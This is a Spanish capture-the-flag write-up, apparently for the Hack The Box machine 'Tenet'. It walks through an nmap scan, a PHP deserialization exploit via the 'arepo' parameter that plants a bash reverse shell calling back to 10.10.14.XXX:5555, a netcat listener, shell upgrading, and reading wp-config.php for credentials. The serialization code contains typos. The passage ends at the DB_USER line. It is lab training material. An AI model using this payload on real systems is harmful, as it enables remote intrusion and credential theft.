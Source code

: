 ```nmap --top-ports 5000 10.10.10.223```

<img src="https://i.gyazo.com/d205b9c1c86a176d64811bbf462c0be6.png">

Gracias a esto probaremos de encontrar esto el archivo **sator.php** y **sator.php.bak**

Los cuales los encontraremos en el subdominio **sator.tenet.htb** o en la 10.10.10.223/sator.php

## Explotación de vulnerabilidades

### PHP Deserialization

Cuando nos descargamos el archivo sator.php.bak encontramos esto dentro:

<img src="https://i.gyazo.com/3c2661078a0d5388fcef5f07ba8db289.png">

Vemos que utiliza el **arepo** en metodo get.

Gracias a esta [página web](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) vemos como funciona el exploit para el PHP Deserialization.

Así que atraves de **php --interactive** crearemos el contenido php.

```
class DatabaseExport{
public $user_file = 'jose.php';
public $data '<?php shell_exec("bash -c \' bash -i >& /dev/tcp/10.10.14.XXX/5555 0>&1\'"); ?>';
}
print urlenconde(serilize(new DatabaseExport));
```

El resultado que nos imprima lo insertaremos en la variable del metodo get **arepo**.

Por utlimo iremos al archivo creado y obtendremos la shell, añadiendole este comando para poner el puerto en escucha: ```rlwrap nc -nvlp 5555```

## Post-explotación

## Movimiento Lateral

Para tener una shell interactiva usaremos este comando: 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Para pasar del usuario www-data al siguiente usuario neil, leeremos el archivo **wp-config.php** en la carpeta **/var/www/html/wordpress**.

```
/** MySQL database username */
define( 'DB_USER', 'neil' );
